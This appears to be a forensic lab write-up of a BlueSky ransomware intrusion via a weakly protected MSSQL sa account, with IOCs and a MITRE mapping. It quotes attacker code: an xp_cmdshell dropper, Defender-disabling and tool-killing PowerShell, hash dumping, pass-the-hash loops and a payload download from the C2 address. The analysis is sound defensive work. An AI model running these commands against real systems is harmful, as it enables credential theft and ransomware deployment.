












### <span style="color:lightblue">TL;DR</span>
The attacker at `87.96.21.84` performed a TCP port scan, identified an
exposed MSSQL instance, and authenticated as `sa` with a weak password.
After enabling `xp_cmdshell`, a base64-encoded PE was dropped to `%TEMP%`
and decoded via a VBScript. A reverse shell provided full access, after
which the attacker downloaded a PowerShell toolkit: `checking.ps1` to
disable Windows Defender and AV services, `ichigo-lite.ps1` to dump NTLM
hashes via `Invoke-PowerDump` and perform lateral movement via
`Invoke-SMBExec`, and `javaw.exe` — the BlueSky ransomware payload staged
to `C:\ProgramData\`.

### <span style="color:red">Packets Overview</span>



### <span style="color:red">Reconnaissance</span>
The attacker at `87.96.21.84` performed a TCP port scan against the victim,
discovering five open ports:
```
445   SMB
139   NetBIOS
135   Microsoft RPC
5357  WS-Discovery
1433  Microsoft SQL Server
```



### <span style="color:red">SQL Server Exploitation</span>
The attacker enumerated the MSSQL instance and authenticated using the
system administrator account:
```
Username: sa
Password: cyb3rd3f3nd3r$
```



After gaining access, `xp_cmdshell` was enabled by changing its value
from `0` to `1`, allowing direct OS command execution from within SQL Server:



A base64-encoded PE (`TVqQ...` = MZ signature) was transferred through
the SQL connection and saved to `%TEMP%\SBjzH.b64`:




A VBScript decoder (`Gjmwb.vbs`) was then constructed via `xp_cmdshell`
to read the base64 file, decode it, write the result to `%TEMP%\LkUYP.exe`,
and execute it silently — establishing a reverse shell:
```powershell
EXEC master..xp_cmdshell 'echo Set ofs = CreateObject("Scripting.FileSystemObject")
  .OpenTextFile("%TEMP%\LkUYP.exe", 2, True) >>%TEMP%\Gjmwb.vbs
& echo shell.run "%TEMP%\LkUYP.exe", 0, false >>%TEMP%\Gjmwb.vbs ...'
```



### <span style="color:red">Privilege escalation and persistance</span>
After the reverse shell was established, the attacker escalated privileges by injecting a payload into `winlogon.exe` using msfconsole. Event ID 400, which marks the start of a new PowerShell host process, confirmed SYSTEM-level execution:



### <span style="color:red">Post-Exploitation</span>

After the reverse shell was established, the attacker downloaded a toolkit
from `http://87.96.21.84`:
```
checking.ps1       — AV disabling + persistence
del.ps1            — kill monitoring tools + WMI cleanup
ichigo-lite.ps1    — hash dumping + lateral movement + ransomware staging
Invoke-PowerDump.ps1
Invoke-SMBExec.ps1
javaw.exe          — BlueSky ransomware payload
```



#### <span style="color:red">checking.ps1</span>
Verified connectivity to `http://87.96.21.84`, then depending on privilege
level executed one of two paths. With SYSTEM privileges it disabled Windows
Defender via `Set-MpPreference`, stopped `WinDefend`, `MBAMService`, and
Sophos services, set exclusion paths for `C:\ProgramData\Oracle` and
`C:\Windows`, and modified Defender registry keys to prevent re-enabling.
It then created a scheduled task `\Microsoft\Windows\MUI\LPupdate` running
`del.ps1` every four hours as SYSTEM, and invoked `ichigo-lite.ps1`:
```powershell
Set-MpPreference -DisableRealtimeMonitoring $true
Set-MpPreference -ExclusionPath "C:\ProgramData\Oracle"
Get-Service WinDefend | Stop-Service -Force
C:\Windows\System32\schtasks.exe /f /tn "\Microsoft\Windows\MUI\LPupdate"
  /tr "powershell -ExecutionPolicy Bypass -File C:\ProgramData\del.ps1"
  /ru SYSTEM /sc HOURLY /mo 4 /create
```

Without elevation, a lower-privilege scheduled task was created under a
fake SID-named task name to blend with system tasks:
```powershell
schtasks /create /tn "Optimize Start Menu Cache Files-S-3-5-21-..." /sc HOURLY /mo 3
```

#### <span style="color:red">del.ps1</span>
Removed WMI event subscriptions used for persistence detection, then killed
monitoring and analysis tools to blind the defender:
```powershell
Get-WmiObject _FilterToConsumerBinding -Namespace root\subscription | Remove-WmiObject

$list = "taskmgr","perfmon","SystemExplorer","taskman","ProcessHacker",
        "procexp64","procexp","Procmon","Daphne"
foreach($task in $list) { stop-process -name $task -Force }
stop-process $pid -Force
```

#### <span style="color:red">ichigo-lite.ps1</span>
Loaded `Invoke-PowerDump` and `Invoke-SMBExec` from the C2, then dumped
NTLM hashes to `C:\ProgramData\hashes.txt`:
```powershell
Invoke-PowerDump | Out-File -FilePath "C:\ProgramData\hashes.txt"
```

Parsed the hash file for usernames and NTLM hashes, fetched a target host
list from `http://87.96.21.84/extracted_hosts.txt`, and performed
pass-the-hash lateral movement against each host via SMB:
```powershell
foreach ($targetHost in $hostsContent -split "`n") {
    Invoke-SMBExec -Target $targetHost -Username $username -Hash $password
}
```

Finally staged the ransomware payload:
```powershell
$blueUri = "http://87.96.21.84/javaw.exe"
$downloadDestination = "C:\ProgramData\javaw.exe"
$downloadSuccess = Download-FileFromURL -url $blueUri -destinationPath $downloadDestination
```



### <span style="color:lightblue">IOCs</span>

**Network**  
\- Attacker C2: `87.96.21.84`  
\- `http://87.96.21.84/del.ps1`  
\- `http://87.96.21.84/ichigo-lite.ps1`   
\- `http://87.96.21.84/Invoke-PowerDump.ps1` 
\- `http://87.96.21.84/Invoke-SMBExec.ps1`  
\- `http://87.96.21.84/extracted_hosts.txt`  
\- `http://87.96.21.84/javaw.exe`  

**Credentials**  
\- `sa:cyb3rd3f3nd3r$` — MSSQL sa account  

**Files**  
\- `%TEMP%\SBjzH.b64` — base64-encoded PE  
\- `%TEMP%\LkUYP.exe` — decoded reverse shell  
\- `%TEMP%\Gjmwb.vbs` — base64 decoder  
\- `C:\ProgramData\del.ps1`  
\- `C:\ProgramData\hashes.txt` — dumped NTLM hashes  
\- `C:\ProgramData\javaw.exe` — BlueSky ransomware (SHA256:3e035f2d7d30869ce53171ef5a0f761bfb9c14d94d9fe6da385e20b8d96dc2fb)  

**Scheduled Tasks**  
\- `\Microsoft\Windows\MUI\LPupdate` — runs `del.ps1` every 4h as SYSTEM  
\- `Optimize Start Menu Cache Files-S-3-5-21-...` — low-priv fallback  

### <span style="color:lightblue">MITRE ATT&CK</span>

| Technique | ID | Description |
|-----------|-----|-------------|
| Network Service Scanning | T1046 | TCP port scan |
| Exploit Public-Facing Application | T1190 | MSSQL xp_cmdshell abuse |
| Valid Accounts | T1078 | sa account authentication |
| Command and Scripting: PowerShell | T1059.001 | multi-stage PS toolkit |
| Obfuscated Files or Information | T1027 | base64-encoded PE + commands |
| Disable or Modify Tools | T1562.001 | Defender disabled via registry + cmdlet |
| OS Credential Dumping: NTLM | T1003.002 | Invoke-PowerDump → hashes.txt |
| Lateral Movement: SMB/Pass-the-Hash | T1550.002 | Invoke-SMBExec with dumped hashes |
| Scheduled Task Persistence | T1053.005 | LPupdate + fake cache task |
| Boot or Logon: Winlogon Helper | T1547.004 | Winlogon registry modification |
| Ingress Tool Transfer | T1105 | javaw.exe staged from C2 |
| Data Encrypted for Impact | T1486 | BlueSky ransomware (javaw.exe) |

### <span style="color:lightblue">Attack Chain</span>


%%{init: {'theme': 'base', 'themeVariables': { 'background': '#ffffff', 'mainBkg': '#ffffff', 'primaryTextColor': '#000000', 'lineColor': '#333333', 'clusterBkg': '#ffffff', 'clusterBorder': '#333333'}}}%%
graph TD
    classDef default fill:#f9f9f9,stroke:#333,stroke-width:1px,color:#000;
    classDef input fill:#e1f5fe,stroke:#0277bd,stroke-width:2px,color:#000;
    classDef check fill:#fff9c4,stroke:#fbc02d,stroke-width:2px,stroke-dasharray: 5 5,color:#000;
    classDef exec fill:#ffebee,stroke:#c62828,stroke-width:2px,color:#000;
    classDef term fill:#e0e0e0,stroke:#333,stroke-width:2px,color:#000;

    Start([87.96.21.84<br/>Attacker]):::input --> Scan[TCP Port Scan]:::exec

    subgraph Recon [Reconnaissance]
        Scan --> Ports[Open: 445 139 135 5357 1433]:::exec
    end

    subgraph Initial_Access [Initial Access]
        Ports --> SQLAuth[MSSQL Login<br/>sa:cyb3rd3f3nd3r$]:::exec
        SQLAuth --> XpCmd[Enable xp_cmdshell]:::exec
        XpCmd --> Drop[Drop base64 PE<br/>%TEMP%\SBjzH.b64]:::exec
        Drop --> VBS[Gjmwb.vbs decoder<br/>→ LkUYP.exe]:::exec
        VBS --> Shell((Reverse Shell)):::exec
    end

    subgraph Evasion [Defense Evasion]
        Shell --> Checking[checking.ps1]:::exec
        Checking --> DefOff[Disable Defender<br/>Set-MpPreference + Registry]:::exec
        Checking --> AVOff[Stop WinDefend<br/>MBAMService Sophos]:::exec
        Shell --> DelPS[del.ps1]:::exec
        DelPS --> WMI[Remove WMI Subscriptions]:::exec
        DelPS --> Kill[Kill procexp taskmgr<br/>ProcessHacker Procmon]:::exec
    end

    subgraph Persistence [Persistence]
        Checking --> Task1[Schtask LPupdate<br/>del.ps1 every 4h SYSTEM]:::exec
        Checking --> Task2[Schtask fake cache name<br/>low-priv fallback]:::exec
        Shell --> Winlogon[Winlogon Registry<br/>Modification]:::exec
    end

    subgraph CredAccess [Credential Access & Lateral Movement]
        Shell --> Ichigo[ichigo-lite.ps1]:::exec
        Ichigo --> PowerDump[Invoke-PowerDump<br/>→ C:\ProgramData\hashes.txt]:::exec
        PowerDump --> SMBExec[Invoke-SMBExec<br/>Pass-the-Hash → extracted_hosts.txt]:::exec
    end

    subgraph Impact [Impact]
        Ichigo --> Download2[Download javaw.exe<br/>C:\ProgramData\]:::exec
        Download2 --> Ransom((BlueSky Ransomware)):::exec
    end
